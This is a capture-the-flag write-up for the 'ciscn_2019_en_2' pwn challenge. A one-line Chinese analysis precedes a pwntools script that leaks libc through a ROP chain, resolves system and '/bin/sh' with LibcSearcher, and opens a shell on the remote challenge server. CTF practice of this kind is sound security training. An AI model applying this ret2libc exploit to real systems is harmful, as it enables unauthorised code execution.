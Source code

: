 ```yaml
---
title: "ciscn_2019_en_2"
description: ""
date: 2023-04-07T00:20:36+08:00
lastmod: 2023-04-07T00:20:36+08:00
draft: false
images: []
type: docs
weight: 988
toc: true
---
```


## 0x01 分析

和ciscn\_2019\_c\_1差不多，就加密变了一点

## 0x02 Exploit

```python
from pwn import*
from LibcSearcher import*
# context.log_level = 'debug'
# o = process("./pwn")
o = remote("node4.buuoj.cn", 25752)
elf = ELF("./pwn")
# libc = elf.libc
puts_plt = elf.plt['puts']
gets_got = elf.got['gets']
encrypt = elf.sym['encrypt']
pop_rdi = 0x0000000000400c83

# leak libc
payload = b'aaaaaaa\x00' + b'a'*80
payload += p64(pop_rdi) +p64(gets_got) + p64(puts_plt) + p64(encrypt)
o.sendline(b'1')
o.sendline(payload)
o.recvuntil("ooooooo\n")    # aaaaaaa加密后的结果
gets_addr = u64(o.recv(6) + b"\x00\x00")
libc = LibcSearcher("gets", gets_addr)
libc_base = gets_addr - libc.dump("gets")
log.info(hex(libc_base))
sys_addr = libc_base + libc.dump("system")
bin_sh = libc_base + libc.dump("str_bin_sh")

# attack
payload = b'aaaaaaa\x00' + b'a'*80
payload += p64(pop_rdi) + p64(bin_sh) +  p64(0x400B27) + p64(sys_addr)
o.sendline(payload)

o.interactive()

```

![9cc1877c63fa60162b541630a52b19c1](images/9cc1877c63fa60162b541630a52b19c1.png)  

自行调试

